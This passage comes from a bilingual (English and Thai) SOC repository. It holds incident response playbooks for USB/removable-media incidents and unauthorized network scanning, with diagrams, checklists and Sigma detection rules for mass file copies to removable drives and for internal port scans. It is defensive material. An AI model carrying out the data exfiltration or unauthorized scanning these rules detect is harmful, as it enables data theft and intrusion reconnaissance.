    FileType -->|"Documents, spreadsheets"| Breach["🔴 Data breach\nCheck PII/PDPA"]
    FileType -->|"Media, presentations"| Review2["🟡 Review with user"]
    style Monitor fill:#333,color:#fff
    style Critical fill:#660000,color:#fff
```

### Response Timeline

```mermaid
gantt
    title USB Incident Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        DLP/EDR alert          :a1, 00:00, 5min
        Identify device & user :a2, after a1, 10min
    section Containment
        Block USB device       :a3, after a2, 5min
        Confiscate device      :a4, after a3, 30min
    section Investigation
        Analyze files copied   :a5, after a4, 60min
        Review user history    :a6, after a5, 60min
        Data classification    :a7, after a6, 30min
    section Recovery
        Policy enforcement     :a8, after a7, 60min
        User training          :a9, after a8, 30min
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Identify the USB device (VID/PID, device type) | SOC T1 |
| 2 | Identify the user and timestamp | SOC T1 |
| 3 | If malware execution — isolate endpoint immediately | SOC T1 |
| 4 | If data exfiltration — preserve DLP logs | SOC T2 |
| 5 | Confiscate the USB device (chain of custody) | Physical Security |
| 6 | Check if the device was authorized per policy | SOC T2 |

## 2. Investigation Checklist

### Device Analysis
- [ ] USB device VID/PID (registry: `USBSTOR`)
- [ ] Device serial number and manufacturer
- [ ] First connection timestamp
- [ ] Is it a known/authorized device?
- [ ] Check Windows Event ID 6416 (new device connected)

### Data Transfer Analysis
- [ ] What files were copied TO the USB?
- [ ] What files were copied FROM the USB?
- [ ] Total volume of data transferred
- [ ] Were any files classified as sensitive/confidential?
- [ ] DLP logs for the transfer

### Malware Analysis (if applicable)
- [ ] Check for autorun.inf on the USB
- [ ] Scan USB content with multiple AV engines
- [ ] Check for hidden/system files
- [ ] Look for malicious .lnk or .hta files
- [ ] Check if any executables ran from the USB

## 3. Containment

| Scope | Action | Details |
|:---|:---|:---|
| **Device** | Confiscate USB | Chain of custody documentation |
| **Endpoint** | Isolate if malware suspected | EDR network isolation |
| **Account** | Disable if insider threat suspected | Pending investigation |
| **Policy** | Block USB class on affected endpoint | GPO or EDR |

## 4. Eradication & Recovery

### If Malware Delivered
1. Reimage endpoint
2. Scan all connected file shares for propagation
3. Block USB device class on all endpoints
4. Deploy updated EDR signatures

### If Data Exfiltrated
1. Classify all exfiltrated data
2. Assess PDPA/regulatory notification requirements
3. Preserve USB content as evidence
4. Review and strengthen DLP policies

## 5. Post-Incident

### Lessons Learned
| Question | Answer |
|:---|:---|
| Was USB device policy enforced? | [Yes/No] |
| Did DLP detect the transfer? | [Yes/No — gap?] |
| Was the user trained on USB risks? | [Status] |
| Are USB ports disabled on sensitive systems? | [Status] |

### Prevention Measures
- [ ] Deploy USB device control (whitelist only approved devices)
- [ ] Enable DLP for removable media
- [ ] Disable autorun/autoplay via GPO
- [ ] Disable USB mass storage on sensitive workstations
- [ ] Conduct USB drop test (security awareness exercise)
- [ ] Deploy USB device auditing (Sysmon Event ID 1 + registry)

## 6. Detection Rules (Sigma)

```yaml
title: USB Mass Storage Device Connected
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 6416
        ClassName: 'DiskDrive'
    condition: selection
    level: medium
```

```yaml
title: Mass File Copy to Removable Drive
logsource:
    product: windows
    category: file_event
detection:
    selection:
        TargetFilename|startswith:
            - 'D:\'
            - 'E:\'
            - 'F:\'
    timeframe: 5m
    condition: selection | count() > 50
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Data Exfiltration Playbook](Data_Exfiltration.en.md)
- [Insider Threat Playbook](Insider_Threat.en.md)
- [Lost Device Playbook](Lost_Device.en.md)
- [Data Handling Protocol](../../06_Operations_Management/Data_Handling_Protocol.en.md)

## References
- [MITRE T1091 — Replication Through Removable Media](https://attack.mitre.org/techniques/T1091/)
- [USB Attack Taxonomy](https://www.usenix.org/conference/usenixsecurity16/technical-sessions/presentation/tischer)
- [NIST SP 800-53 — Media Protection](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)


---

## File: 05_Incident_Response/Playbooks/USB_Removable_Media.th.md

# Playbook: การตอบสนอง USB / สื่อถอดได้

**ID**: PB-40
**ความรุนแรง**: ปานกลาง–สูง | **ประเภท**: Initial Access / Exfiltration
**MITRE ATT&CK**: [T1091](https://attack.mitre.org/techniques/T1091/) (Replication Through Removable Media), [T1052.001](https://attack.mitre.org/techniques/T1052/001/) (Exfiltration over USB), [T1200](https://attack.mitre.org/techniques/T1200/) (Hardware Additions)
**Trigger**: DLP alert (USB copy), EDR (autorun execution), physical security (USB device ไม่ได้รับอนุญาต), SIEM (mass file copy ไปยัง removable drive)

> ⚠️ **คำเตือน**: อุปกรณ์ USB สามารถส่ง malware (Rubber Ducky, BadUSB), ขโมยข้อมูล, หรือเชื่อมเครือข่าย air-gapped ได้ อย่าเสียบ USB ที่ไม่รู้จักเข้าระบบองค์กร

### ภาพรวมภัยคุกคาม USB

```mermaid
graph TD
    USB["🔌 ภัยคุกคาม USB"] --> Malware["ส่ง Malware"]
    USB --> Exfil["ขโมยข้อมูล"]
    USB --> HW["โจมตี Hardware"]
    USB --> Bridge["เชื่อม Air-Gap"]
    
    Malware --> Autorun["Autorun malware\nT1091"]
    Malware --> Rubber["Rubber Ducky\nHID injection"]
    Malware --> BadUSB["BadUSB\nFirmware exploit"]
    
    Exfil --> Copy["คัดลอกไฟล์จำนวนมาก\nT1052.001"]
    Exfil --> Encrypt["Encrypted container\nVeraCrypt"]
    
    HW --> Killer["USB Killer\nทำลาย hardware"]
    HW --> Keylogger["USB Keylogger\nจับ keystroke"]
    
    Bridge --> Stuxnet["แบบ Stuxnet\nเชื่อม OT network"]
    
    style USB fill:#ff6600,color:#fff
    style Rubber fill:#cc0000,color:#fff
    style BadUSB fill:#cc0000,color:#fff
    style Killer fill:#660000,color:#fff
```

### สถานการณ์การโจมตี USB

```mermaid
graph LR
    A["1️⃣ Social Engineering\nวาง USB ในที่จอดรถ"] --> B["2️⃣ เสียบอุปกรณ์\nความอยากรู้"]
    B --> C["3️⃣ Payload ทำงาน\nAutorun/HID inject"]
    C --> D["4️⃣ Malware ติดตั้ง\nสร้าง persistence"]
    D --> E["5️⃣ C2 Connection\nBeacon ไปหาผู้โจมตี"]
    E --> F["6️⃣ Lateral Movement\nCompromise เครือข่าย"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 ตรวจพบกิจกรรม USB"] --> Type{"ประเภทกิจกรรม?"}
    Type -->|"อุปกรณ์ไม่รู้จักเสียบ"| Unknown["ตรวจประเภทอุปกรณ์\nHID? Storage? Network?"]
    Type -->|"คัดลอกไฟล์จำนวนมาก"| DLP["ตรวจ DLP policy\nการโอนที่ได้รับอนุญาต?"]
    Type -->|"Autorun/execution จาก USB"| Exec["🔴 อาจเป็น malware\nแยกทันที"]
    Unknown --> HID{"HID device?"}
    HID -->|ใช่| Rubber["🔴 อาจเป็น Rubber Ducky\nถอด USB ทันที"]
    HID -->|"ไม่ — Storage"| Authorized{"User & device ได้รับอนุญาต?"}
    Authorized -->|ใช่| Policy["บันทึก & ตรวจติดตาม"]
    Authorized -->|ไม่| Block["Block & สืบสวน"]
    DLP --> Sensitive{"ข้อมูลสำคัญ?"}
    Sensitive -->|ใช่| DLPBlock["🔴 Block การโอน\nแจ้ง Data Protection"]
    Sensitive -->|ไม่| Review["ตรวจวัตถุประสงค์\nบันทึกสำหรับ audit"]
    Exec --> Isolate["แยก endpoint\nเก็บหลักฐาน"]
    style Alert fill:#ff6600,color:#fff
    style Rubber fill:#cc0000,color:#fff
    style DLPBlock fill:#cc0000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant DLP
    participant SOC as SOC Analyst
    participant IT as IT Security
    participant HR
    participant IR as IR Team

    DLP->>SOC: 🚨 USB mass copy alert
    SOC->>SOC: ตรวจ: ใคร คัดลอกไฟล์อะไร เมื่อไหร่
    SOC->>IT: ดึงข้อมูล USB device registry (VID/PID)
    IT->>SOC: ข้อมูลอุปกรณ์: USB drive ส่วนตัว
    SOC->>SOC: จำแนกระดับความสำคัญของข้อมูล
    SOC->>HR: แจ้ง — อาจมีการขโมยข้อมูล
    SOC->>IR: Escalate ถ้ายืนยันข้อมูลสำคัญ
    IR->>IT: ตรวจกิจกรรม USB ทั้งหมดของ user นี้ (30 วัน)
```

### การจำแนกอุปกรณ์ USB

```mermaid
graph TD
    subgraph "🟢 ความเสี่ยงต่ำ"
        Mouse["USB Mouse\nStandard HID"]
        Keyboard["USB Keyboard\nStandard HID"]
        Headset["USB Headset\nAudio device"]
    end
    subgraph "🟡 ความเสี่ยงปานกลาง"
        Storage["USB Flash Drive\nMass storage"]
        ExtHDD["External HDD\nMass storage"]
        Phone["Smartphone\nMTP/PTP"]
    end
    subgraph "🔴 ความเสี่ยงสูง"
        RubberDuck["Rubber Ducky\nHID + scripting"]
        BadUSBDev["BadUSB Device\nFirmware exploit"]
        WiFiPineapple["WiFi Pineapple\nNetwork bridge"]
        USBKiller["USB Killer\nPower surge"]
    end
    style RubberDuck fill:#cc0000,color:#fff
    style BadUSBDev fill:#cc0000,color:#fff
    style USBKiller fill:#660000,color:#fff
```

### การตรวจจับ Data Exfiltration

```mermaid
graph TD
    Monitor["USB Monitoring"] --> Volume{"ปริมาณข้อมูลที่โอน?"}
    Volume -->|"< 100MB"| Low["🟢 ความเสี่ยงต่ำ\nบันทึกและตรวจสอบ"]
    Volume -->|"100MB - 1GB"| Med["🟡 ปานกลาง\nตรวจประเภทไฟล์"]
    Volume -->|"> 1GB"| High["🔴 ความเสี่ยงสูง\nอาจขโมยข้อมูลจำนวนมาก"]
    High --> FileType{"ประเภทไฟล์?"}
    FileType -->|"Source code, DB dumps"| Critical["💀 วิกฤต\nขโมย IP"]
    FileType -->|"Documents, spreadsheets"| Breach["🔴 Data breach\nตรวจ PII/PDPA"]
    FileType -->|"Media, presentations"| Review2["🟡 ตรวจสอบกับ user"]
    style Monitor fill:#333,color:#fff
    style Critical fill:#660000,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title USB Incident Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        DLP/EDR alert          :a1, 00:00, 5min
        ระบุอุปกรณ์ & user    :a2, after a1, 10min
    section Containment
        Block USB device       :a3, after a2, 5min
        ยึดอุปกรณ์            :a4, after a3, 30min
    section Investigation
        วิเคราะห์ไฟล์ที่คัดลอก :a5, after a4, 60min
        ตรวจประวัติ user      :a6, after a5, 60min
        จำแนกข้อมูล           :a7, after a6, 30min
    section Recovery
        บังคับ policy          :a8, after a7, 60min
        อบรม user             :a9, after a8, 30min
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | ระบุอุปกรณ์ USB (VID/PID, ประเภท) | SOC T1 |
| 2 | ระบุ user และ timestamp | SOC T1 |
| 3 | ถ้า malware execution — แยก endpoint ทันที | SOC T1 |
| 4 | ถ้าขโมยข้อมูล — เก็บ DLP logs | SOC T2 |
| 5 | ยึดอุปกรณ์ USB (chain of custody) | Physical Security |
| 6 | ตรวจว่าอุปกรณ์ได้รับอนุญาตตาม policy หรือไม่ | SOC T2 |

## 2. รายการตรวจสอบ

### วิเคราะห์อุปกรณ์
- [ ] USB device VID/PID (registry: `USBSTOR`)
- [ ] หมายเลขซีเรียลและผู้ผลิต
- [ ] Timestamp การเชื่อมต่อครั้งแรก
- [ ] เป็นอุปกรณ์ที่รู้จัก/ได้รับอนุญาตหรือไม่?
- [ ] ตรวจ Windows Event ID 6416 (อุปกรณ์ใหม่เชื่อมต่อ)

### วิเคราะห์การโอนข้อมูล
- [ ] ไฟล์อะไรถูกคัดลอกไปยัง USB?
- [ ] ไฟล์อะไรถูกคัดลอกจาก USB?
- [ ] ปริมาณข้อมูลที่โอนทั้งหมด
- [ ] มีไฟล์ที่จัดเป็น sensitive/confidential หรือไม่?
- [ ] DLP logs สำหรับการโอน

### วิเคราะห์ Malware (ถ้ามี)
- [ ] ตรวจ autorun.inf บน USB
- [ ] สแกนเนื้อหา USB ด้วย AV หลายตัว
- [ ] ตรวจไฟล์ hidden/system
- [ ] ตรวจไฟล์ .lnk หรือ .hta อันตราย
- [ ] ตรวจว่ามี executables รันจาก USB หรือไม่

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ | รายละเอียด |
|:---|:---|:---|
| **อุปกรณ์** | ยึด USB | เอกสาร chain of custody |
| **Endpoint** | แยกถ้าสงสัย malware | EDR network isolation |
| **บัญชี** | ปิดถ้าสงสัย insider threat | รอการสืบสวน |
| **Policy** | Block USB class บน endpoint | GPO หรือ EDR |

## 4. การกำจัดและกู้คืน

### ถ้าส่ง Malware
1. Reimage endpoint
2. สแกน file shares ที่เชื่อมต่อสำหรับการแพร่กระจาย
3. Block USB device class บนทุก endpoints
4. Deploy EDR signatures ที่อัปเดต

### ถ้าขโมยข้อมูล
1. จำแนกข้อมูลทั้งหมดที่ถูกขโมย
2. ประเมินข้อกำหนดแจ้ง PDPA/กฎหมาย
3. เก็บเนื้อหา USB เป็นหลักฐาน
4. ตรวจสอบและเสริม DLP policies

## 5. หลังเหตุการณ์ (Post-Incident)

### บทเรียน
| คำถาม | คำตอบ |
|:---|:---|
| USB device policy บังคับใช้อยู่หรือไม่? | [ใช่/ไม่] |
| DLP ตรวจจับการโอนได้หรือไม่? | [ใช่/ไม่ — ช่องว่าง?] |
| User ได้รับการอบรมเรื่อง USB risks หรือไม่? | [สถานะ] |
| USB ports ปิดบนระบบสำคัญหรือไม่? | [สถานะ] |

### มาตรการป้องกัน
- [ ] Deploy USB device control (whitelist เฉพาะอุปกรณ์ที่อนุมัติ)
- [ ] เปิด DLP สำหรับ removable media
- [ ] ปิด autorun/autoplay ผ่าน GPO
- [ ] ปิด USB mass storage บน workstations สำคัญ
- [ ] จัดทดสอบ USB drop test (security awareness)
- [ ] Deploy USB device auditing (Sysmon Event ID 1 + registry)

## 6. Detection Rules (Sigma)

```yaml
title: USB Mass Storage Device Connected
logsource:
    product: windows
    service: security
detection:
    selection:
        EventID: 6416
        ClassName: 'DiskDrive'
    condition: selection
    level: medium
```

```yaml
title: Mass File Copy to Removable Drive
logsource:
    product: windows
    category: file_event
detection:
    selection:
        TargetFilename|startswith:
            - 'D:\'
            - 'E:\'
            - 'F:\'
    timeframe: 5m
    condition: selection | count() > 50
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [Data Exfiltration Playbook](Data_Exfiltration.th.md)
- [Insider Threat Playbook](Insider_Threat.th.md)
- [Lost Device Playbook](Lost_Device.th.md)
- [Data Handling Protocol](../../06_Operations_Management/Data_Handling_Protocol.th.md)

## References
- [MITRE T1091 — Replication Through Removable Media](https://attack.mitre.org/techniques/T1091/)
- [USB Attack Taxonomy](https://www.usenix.org/conference/usenixsecurity16/technical-sessions/presentation/tischer)
- [NIST SP 800-53 — Media Protection](https://csrc.nist.gov/publications/detail/sp/800-53/rev-5/final)


---

## File: 05_Incident_Response/Playbooks/Unauthorized_Scanning.en.md

# Playbook: Unauthorized Scanning / Reconnaissance Response

**ID**: PB-50
**Severity**: Medium | **Category**: Reconnaissance / Discovery
**MITRE ATT&CK**: [T1046](https://attack.mitre.org/techniques/T1046/) (Network Service Discovery), [T1595](https://attack.mitre.org/techniques/T1595/) (Active Scanning)
**Trigger**: IDS/IPS (port scan detection), firewall (repeated connection attempts), SIEM (network sweep from internal host), honeypot alert, external scan report

> ⚠️ **NOTE**: Scanning is often the first phase of an attack. While scanning alone is not an incident, it indicates adversary interest and should drive proactive defense.

### Reconnaissance Attack Position

```mermaid
graph LR
    A["1️⃣ Scanning\nPort/service discovery"] --> B["2️⃣ Enumeration\nService versions/banners"]
    B --> C["3️⃣ Vulnerability Scan\nCVE identification"]
    C --> D["4️⃣ Exploitation\nGain access"]
    D --> E["5️⃣ Post-Exploit\nPersistence + lateral"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style D fill:#ff4444,color:#fff
    style E fill:#660000,color:#fff
```

### Scan Types and Risk

```mermaid
graph TD
    Scan["🔍 Scan Types"] --> Port["Port Scan\nTCP/UDP services"]
    Scan --> Vuln["Vulnerability Scan\nCVE matching"]
    Scan --> Web["Web Scan\nDirectory/file brute"]
    Scan --> DNS["DNS Enumeration\nSubdomain discovery"]
    Scan --> OSINT["OSINT\nShodan/Censys"]
    
    Port --> Risk1["🟡 Medium\nRecon indicator"]
    Vuln --> Risk2["🟠 High\nExploitation imminent"]
    Web --> Risk3["🟠 High\nApplication targeting"]
    DNS --> Risk4["🟡 Medium\nAsset mapping"]
    OSINT --> Risk5["🔵 Low\nPassive — no direct scan"]
    
    style Scan fill:#ff6600,color:#fff
    style Risk2 fill:#cc0000,color:#fff
    style Risk3 fill:#cc0000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Scanning Activity Detected"] --> Source{"Internal or External?"}
    Source -->|"External"| Ext["External IP scanning\nour perimeter"]
    Source -->|"Internal"| Int["Internal host scanning\nnetwork segments"]
    Ext --> Volume{"Volume/intent?"}
    Volume -->|"Low — few ports"| ExtLow["🟡 Monitor\nMay be legitimate scanner"]
    Volume -->|"High — sweep"| ExtHigh["🟠 Block source IP\nCheck for vulnerability match"]
    Int --> Authorized{"Authorized scan?"}
    Authorized -->|"Yes — IT/pentest"| Close["Verify authorization\nClose alert"]
    Authorized -->|"No — Unknown"| Compromise["🔴 Host may be compromised\nInvestigate immediately"]
    Compromise --> Isolate["Isolate scanning host\nCheck for malware"]
    style Alert fill:#ff6600,color:#fff
    style Compromise fill:#cc0000,color:#fff
```

### Investigation Workflow

```mermaid
sequenceDiagram
    participant IDS as IDS/Firewall
    participant SOC as SOC Analyst
    participant NetOps as Network Ops
    participant IT as IT Team
    participant IR as IR Team

    IDS->>SOC: 🚨 Port scan detected from 10.1.2.50
    SOC->>SOC: Check: is this an authorized scan?
    SOC->>IT: Who owns 10.1.2.50? Any scheduled scans?
    IT->>SOC: Not authorized — desktop PC
    SOC->>NetOps: Isolate host at switch level
    SOC->>IR: Potential compromised host
    IR->>IR: EDR check for malware/C2
    IR->>SOC: Worm spreading via SMB — contain
```

### Common Scanning Tools

```mermaid
graph TD
    subgraph "Legitimate/Dual-Use"
        T1["Nmap — port scanner"]
        T2["Nessus — vulnerability scanner"]
        T3["Masscan — fast port scanner"]
        T4["Nikto — web scanner"]
        T5["Dirbuster — directory enumeration"]
    end
    subgraph "Malware Scanning"
        M1["WannaCry — SMB scanning"]
        M2["Mirai — telnet/SSH scan"]
        M3["Emotet — internal recon"]
        M4["Cobalt Strike — network discovery"]
    end
    style M1 fill:#cc0000,color:#fff
    style M4 fill:#cc0000,color:#fff
    style T1 fill:#ff9900,color:#fff
```

### Scan Pattern Analysis

```mermaid
graph TD
    Pattern["Scan Pattern"] --> Horizontal["Horizontal Scan\nSame port, many hosts\n→ Worm/mass exploit"]
    Pattern --> Vertical["Vertical Scan\nMany ports, one host\n→ Targeted recon"]
    Pattern --> Sweep["Network Sweep\nMany ports, many hosts\n→ Internal recon"]
    Horizontal --> HRisk["🔴 Likely automated\nMalware/worm"]
    Vertical --> VRisk["🟠 Likely targeted\nAttacker profiling host"]
    Sweep --> SRisk["🔴 Compromised host\nLateral movement prep"]
    style HRisk fill:#cc0000,color:#fff
    style SRisk fill:#cc0000,color:#fff
    style VRisk fill:#ff6600,color:#fff
```

### Response Timeline

```mermaid
gantt
    title Unauthorized Scanning Response
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        IDS/FW alert           :a1, 00:00, 5min
        Verify authorization   :a2, after a1, 10min
    section Assessment
        Classify scan type     :a3, after a2, 10min
        Check source host      :a4, after a3, 15min
    section Response
        Block/isolate source   :a5, after a4, 5min
        Hunt for compromise    :a6, after a5, 60min
    section Remediation
        Patch exposed services :a7, after a6, 120min
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Identify scanning source (IP address, hostname) | SOC T1 |
| 2 | Determine: internal or external? Authorized or not? | SOC T1 |
| 3 | If unauthorized internal — isolate host immediately | NetOps |
| 4 | If external — block source IP at firewall | NetOps |
| 5 | Check what was scanned (ports, services, responses) | SOC T2 |
| 6 | Verify targeted services are patched | IT |

## 2. Investigation Checklist

### Scan Analysis
- [ ] Source IP address and geolocation/hostname
- [ ] Scan type: port scan, vulnerability scan, web scan?
- [ ] Scan pattern: horizontal, vertical, or sweep?
- [ ] Ports/services targeted
- [ ] Duration and volume of scan traffic
- [ ] Was any exploitation attempted after scanning?

### Internal Source
- [ ] What host is performing the scan?
- [ ] Is it an authorized security scan/pentest?
- [ ] Check EDR for malware or C2 on the scanning host
- [ ] Was the host recently compromised?
- [ ] Are other hosts in the same segment also scanning?

### External Source
- [ ] IP reputation check (AbuseIPDB, VirusTotal)
- [ ] Is it a known scanner (Shodan, Censys, legitimate)?
- [ ] Was exploration attempted after scanning?
- [ ] Are vulnerable services exposed?

## 3. Containment

| Scope | Action |
|:---|:---|
| **External source** | Block at firewall, report to ISP |
| **Internal source** | Isolate host, investigate for compromise |
| **Targeted services** | Verify patches, close unnecessary ports |
| **Network** | Review firewall rules, close gaps |

## 4. Post-Incident

| Question | Answer |
|:---|:---|
| Was the scan internal or external? | [Source] |
| Was it authorized (pentest/IT scan)? | [Yes/No] |
| Were any vulnerable services discovered? | [List] |
| Were exposed services patched? | [Status] |
| Are IDS scan detection rules tuned? | [Status] |

## 6. Detection Rules (Sigma)

```yaml
title: Internal Port Scan Detected
logsource:
    product: firewall
detection:
    selection:
        action: 'deny'
        direction: 'internal'
    timeframe: 5m
    condition: selection | count(dst_port) by src_ip > 20
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Exploit Playbook](Exploit.en.md)
- [Lateral Movement Playbook](Lateral_Movement.en.md)
- [Malware Infection Playbook](Malware_Infection.en.md)

## References
- [MITRE T1046 — Network Service Discovery](https://attack.mitre.org/techniques/T1046/)
- [MITRE T1595 — Active Scanning](https://attack.mitre.org/techniques/T1595/)


---

## File: 05_Incident_Response/Playbooks/Unauthorized_Scanning.th.md

# Playbook: การตอบสนอง Unauthorized Scanning / Reconnaissance

**ID**: PB-50
**ความรุนแรง**: ปานกลาง | **ประเภท**: Reconnaissance / Discovery
**MITRE ATT&CK**: [T1046](https://attack.mitre.org/techniques/T1046/) (Network Service Discovery), [T1595](https://attack.mitre.org/techniques/T1595/) (Active Scanning)
**Trigger**: IDS/IPS (ตรวจจับ port scan), firewall (connection attempts ซ้ำๆ), SIEM (network sweep จาก internal host), honeypot alert, รายงาน scan ภายนอก

> ⚠️ **หมายเหตุ**: Scanning มักเป็นขั้นตอนแรกของการโจมตี แม้ scanning เพียงอย่างเดียวไม่ใช่เหตุการณ์ แต่บ่งชี้ถึงความสนใจของผู้โจมตีและควรกระตุ้นการป้องกันเชิงรุก

### ตำแหน่งการโจมตี Reconnaissance

```mermaid
graph LR
    A["1️⃣ Scanning\nค้นหา port/service"] --> B["2️⃣ Enumeration\nService versions/banners"]
    B --> C["3️⃣ Vulnerability Scan\nระบุ CVE"]
    C --> D["4️⃣ Exploitation\nเข้าถึง"]
    D --> E["5️⃣ Post-Exploit\nPersistence + lateral"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff6600,color:#fff
    style D fill:#ff4444,color:#fff
    style E fill:#660000,color:#fff
```

### ประเภท Scan และความเสี่ยง

```mermaid
graph TD
    Scan["🔍 ประเภท Scan"] --> Port["Port Scan\nTCP/UDP services"]
    Scan --> Vuln["Vulnerability Scan\nCVE matching"]
    Scan --> Web["Web Scan\nDirectory/file brute"]
    Scan --> DNS["DNS Enumeration\nค้นหา subdomain"]
    Scan --> OSINT["OSINT\nShodan/Censys"]
    
    Port --> Risk1["🟡 ปานกลาง\nตัวบ่งชี้ recon"]
    Vuln --> Risk2["🟠 สูง\nExploitation ใกล้จะเกิด"]
    Web --> Risk3["🟠 สูง\nมุ่งเป้า application"]
    DNS --> Risk4["🟡 ปานกลาง\nทำแผนที่ assets"]
    OSINT --> Risk5["🔵 ต่ำ\nPassive — ไม่ scan โดยตรง"]
    
    style Scan fill:#ff6600,color:#fff
    style Risk2 fill:#cc0000,color:#fff
    style Risk3 fill:#cc0000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 ตรวจพบ Scanning Activity"] --> Source{"ภายในหรือภายนอก?"}
    Source -->|"ภายนอก"| Ext["IP ภายนอก scan\nperimeter ของเรา"]
    Source -->|"ภายใน"| Int["Host ภายใน scan\nnetwork segments"]
    Ext --> Volume{"ปริมาณ/เจตนา?"}
    Volume -->|"ต่ำ — ports น้อย"| ExtLow["🟡 ตรวจติดตาม\nอาจเป็น scanner ปกติ"]
    Volume -->|"สูง — sweep"| ExtHigh["🟠 Block source IP\nตรวจ vulnerability match"]
    Int --> Authorized{"Scan ที่ได้รับอนุญาต?"}
    Authorized -->|"ใช่ — IT/pentest"| Close["ยืนยัน authorization\nปิด alert"]
    Authorized -->|"ไม่ — ไม่รู้จัก"| Compromise["🔴 Host อาจถูก compromise\nสืบสวนทันที"]
    Compromise --> Isolate["แยก scanning host\nตรวจ malware"]
    style Alert fill:#ff6600,color:#fff
    style Compromise fill:#cc0000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant IDS as IDS/Firewall
    participant SOC as SOC Analyst
    participant NetOps as Network Ops
    participant IT as IT Team
    participant IR as IR Team

    IDS->>SOC: 🚨 ตรวจพบ port scan จาก 10.1.2.50
    SOC->>SOC: ตรวจ: เป็น authorized scan หรือไม่?
    SOC->>IT: ใครเป็นเจ้าของ 10.1.2.50? มี scan ที่นัดไว้?
    IT->>SOC: ไม่ได้รับอนุญาต — desktop PC
    SOC->>NetOps: แยก host ที่ switch level
    SOC->>IR: Host อาจถูก compromise
    IR->>IR: EDR ตรวจ malware/C2
    IR->>SOC: Worm แพร่กระจายผ่าน SMB — contain
```

### เครื่องมือ Scanning ที่พบบ่อย

```mermaid
graph TD
    subgraph "ถูกกฎหมาย/ใช้ได้สองทาง"
        T1["Nmap — port scanner"]
        T2["Nessus — vulnerability scanner"]
        T3["Masscan — fast port scanner"]
        T4["Nikto — web scanner"]
    end
    subgraph "Malware Scanning"
        M1["WannaCry — SMB scanning"]
        M2["Mirai — telnet/SSH scan"]
        M3["Emotet — internal recon"]
        M4["Cobalt Strike — network discovery"]
    end
    style M1 fill:#cc0000,color:#fff
    style M4 fill:#cc0000,color:#fff
    style T1 fill:#ff9900,color:#fff
```

### วิเคราะห์รูปแบบ Scan

```mermaid
graph TD
    Pattern["รูปแบบ Scan"] --> Horizontal["Horizontal Scan\nPort เดียว, หลาย hosts\n→ Worm/mass exploit"]
    Pattern --> Vertical["Vertical Scan\nหลาย ports, host เดียว\n→ Targeted recon"]
    Pattern --> Sweep["Network Sweep\nหลาย ports, หลาย hosts\n→ Internal recon"]
    Horizontal --> HRisk["🔴 น่าจะอัตโนมัติ\nMalware/worm"]
    Vertical --> VRisk["🟠 น่าจะ targeted\nผู้โจมตี profile host"]
    Sweep --> SRisk["🔴 Host ถูก compromise\nเตรียม lateral movement"]
    style HRisk fill:#cc0000,color:#fff
    style SRisk fill:#cc0000,color:#fff
    style VRisk fill:#ff6600,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Unauthorized Scanning Response
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        IDS/FW alert           :a1, 00:00, 5min
        ยืนยัน authorization   :a2, after a1, 10min
    section Assessment
        จำแนกประเภท scan       :a3, after a2, 10min
        ตรวจ source host       :a4, after a3, 15min
    section Response
        Block/แยก source       :a5, after a4, 5min
        Hunt for compromise    :a6, after a5, 60min
    section Remediation
        Patch exposed services :a7, after a6, 120min
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | ระบุแหล่ง scanning (IP address, hostname) | SOC T1 |
| 2 | ตรวจ: ภายในหรือภายนอก? ได้รับอนุญาตหรือไม่? | SOC T1 |
| 3 | ถ้าภายในไม่ได้รับอนุญาต — แยก host ทันที | NetOps |
| 4 | ถ้าภายนอก — block source IP ที่ firewall | NetOps |
| 5 | ตรวจว่า scan อะไร (ports, services, responses) | SOC T2 |
| 6 | ยืนยัน targeted services ได้ patch แล้ว | IT |

## 2. รายการตรวจสอบ

### วิเคราะห์ Scan
- [ ] Source IP address และ geolocation/hostname
- [ ] ประเภท: port scan, vulnerability scan, web scan?
- [ ] รูปแบบ: horizontal, vertical, หรือ sweep?
- [ ] Ports/services ที่เป็นเป้าหมาย
- [ ] ระยะเวลาและปริมาณ scan traffic
- [ ] มีการพยายาม exploit หลัง scanning หรือไม่?

### แหล่ง Internal
- [ ] Host ไหนทำ scan?
- [ ] เป็น security scan/pentest ที่ได้รับอนุญาตหรือไม่?
- [ ] ตรวจ EDR สำหรับ malware หรือ C2 บน scanning host
- [ ] Host ถูก compromise เร็วๆ นี้หรือไม่?

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ |
|:---|:---|
| **แหล่งภายนอก** | Block ที่ firewall, รายงาน ISP |
| **แหล่งภายใน** | แยก host, สืบสวน compromise |
| **Services เป้าหมาย** | ยืนยัน patches, ปิด ports ที่ไม่จำเป็น |
| **เครือข่าย** | ทบทวน firewall rules, ปิดช่องโหว่ |

### การ Harden เครือข่าย
